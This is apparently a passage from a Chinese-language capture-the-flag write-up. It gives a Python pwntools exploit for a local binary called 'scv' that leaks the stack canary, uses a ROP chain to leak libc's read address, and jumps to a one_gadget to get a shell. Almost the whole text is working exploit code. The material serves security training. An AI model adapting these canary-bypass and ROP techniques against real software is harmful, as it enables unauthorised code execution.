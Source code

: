 接着通过leak的canary过掉canary保护并开启shell

```python
    from pwn import *
    p = process('./scv')
    print p.recv()

    payload1 = 'A'*0xa8 + 'B'
    p.sendline('1')
    p.send(payload1)
    sleep(1)
    p.sendline('2')
    p.recvuntil("B")
    canary = u64('\x00'+p.recv(7))
    log.info('canary = %#x',canary)

    p.recv()

    elf = ELF('./scv')
    puts_plt = elf.symbols['puts']
    read_got = elf.got['read']
    log.info("puts_plt = %#x, read_got = %#x"%(puts_plt,read_got))
    pop_rdi = 0x400ea3
    start = 0x4009A0

    payload2 = 'A'*0xa8
    payload2 += p64(canary)
    payload2 += 'B'*8
    payload2 += p64(pop_rdi)
    payload2 += p64(read_got)
    payload2 += p64(puts_plt)
    payload2 += p64(start)

    p.sendline('1')
    p.send(payload2)
    sleep(1)
    p.sendline('3')
    p.recvuntil('BYE ~ TIME TO MINE MIENRALS...\n')
    read_addr = u64(p.recv(6)+'\x00\x00')
    one_gadget_addr = read_addr -(0xF7250 - 0x45216)
    log.info("read_addr = %#x, one_gadget_addr = %#x"%(read_addr,one_gadget_addr))

    p.sendline('1')
    payload3 = 'A'*0xa8
    payload3 += p64(canary)
    payload3 += 'B'*8
    payload3 += p64(one_gadget_addr)
    p.send(payload3)
    p.recv()
    p.sendline('3')
    p.recv()
    p.interactive()
```

